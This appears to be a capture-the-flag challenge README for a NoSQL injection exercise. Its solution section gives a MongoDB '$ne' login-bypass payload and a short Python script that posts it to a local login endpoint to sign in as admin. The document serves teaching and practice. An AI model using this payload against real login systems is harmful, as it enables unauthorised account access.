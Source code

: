 # NoSQL Injection
Objective is for the player to perform a NoSQL injection on the login page and login as admin.

## Setup
Build and run docker container

## Solution
The standard NoSQL injection for MongoDB is `{"username": {"$ne": "null"}, "password": {"$ne": "null"}}`. This is will return the login as the first user in the DB. Since the first user entered into the DB is bob the injection has to be modified to: `{"username": "admin", "password": {"$ne": "null"}}`. The injection will have to either be done from the console or a script since the normal login form will escape the user input.  
The easiest way to do the injection is:
```python
import requests
url = "http://localhost:4000/login"
data = {"username": "admin", "password": {"$ne": "null"}}
r = requests.post(url, json=data)
print r.text
```
